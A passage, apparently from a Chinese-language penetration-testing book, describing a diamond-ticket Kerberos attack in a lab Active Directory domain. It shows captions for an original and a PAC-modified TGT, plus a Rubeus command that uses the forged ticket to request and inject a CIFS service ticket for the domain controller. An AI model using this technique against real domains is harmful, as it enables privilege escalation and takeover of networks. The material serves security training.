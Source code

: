 ![图 7.8 – 低权限用户请求的 TGT](img/B18964_07_08.jpg)

图 7.8 – 低权限用户请求的 TGT

PAC 修改会实时发生，如下图所示：

![图 7.9 – 修改后的 TGT](img/B18964_07_09.jpg)

图 7.9 – 修改后的 TGT

使用伪造的 TGT，我们可以通过以下命令请求域控制器上的 CIFS 服务票证：

```
Rubeus.exe asktgs /user:robert.baratheon /ticket:<diamon_ticket_here> /service:cifs/kingslanding.sevenkingdoms.local /ptt /nowrap
```
